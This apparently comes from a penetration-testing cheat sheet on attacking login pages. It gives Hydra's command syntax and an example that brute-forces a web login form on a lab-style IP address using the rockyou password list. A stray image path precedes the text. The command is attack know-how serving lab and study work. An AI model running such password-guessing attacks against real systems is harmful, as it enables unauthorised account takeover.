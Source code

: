 # Login Pages

## Hydra

`sudo hydra <-l Username/-L List> <-p password/-P List> <IP> <Method> "<Path>:<RequestBody>:<IncorrectVerbiage>`

Example:
`sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"`

